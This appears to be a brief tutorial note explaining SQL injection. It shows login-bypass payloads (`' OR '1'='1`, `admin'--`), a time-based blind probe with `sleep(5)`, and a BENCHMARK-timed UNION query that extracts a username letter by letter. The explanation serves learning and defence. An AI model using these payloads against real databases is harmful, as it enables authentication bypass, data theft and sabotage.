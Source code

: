 ## Example for sqli

### 1 
#### What we are expecting
```sql
$username = admin
$encrypted_pwd = Iam77groot

@query = SELECT * FROM user WHERE username = 'admin' and password = 'Iam77groot'
```
#### what we can get
```sql
$username = admin' OR '1'='1
$encrypted_pwd = pwd123

@query = SELECT * FROM user WHERE username = 'admin' OR '1'='1' and password = 'pwd123' -- Let's break it

username = 'admin' and password = 'pwd123'  -- false
username = 'admin' OR '1'='1' -- true
# Done💀!
```
### 2 
#### what we can get
```sql
$username = admin'-- 
$encrypted_pwd = pwd123

@query = SELECT * FROM user WHERE username = 'admin'-- and password = 'pwd123'
# Done💀!
```
## SQLI GOALS
- Probe database structure
- Steal data
- Alter data, elevate permissions
- Destory data, sabotage
- Bypass authentication

## Blind SQL Injection
A vulnerability may exist on a page but it does't change the response to the browser that means there would be no feedback to tell an attacker if it succeeded.
A clever technique is to inject an sql query which will cause the database to pause or to return a slow response if the injection works.

### 3
#### SQL's SLEEP Function
```sql
$id = ' AND sleep(5); --';

-- 💀 if it works the server will pause for 5 seconds this tells that the vulnerability exists then they can execute other commands blindly
```

### 4
```sql
$id = '1 UNION SELECT IF(
  SUBSTRING(username,1,1) = CHAR(97), -- char97 which is a
  BENCHMARK(5000000, MD5('MD5 is relativelt slow'), -- benchmark executes 5 million times 
  Null
  ) FROM users WHERE user_id = 1;-- ';

-- if username's first is a then the fn benchmark executes a slow process 5 million times otherwise it finishes quickly.
-- attcker can go through the entire alphabet in a loop to determine the full username
```
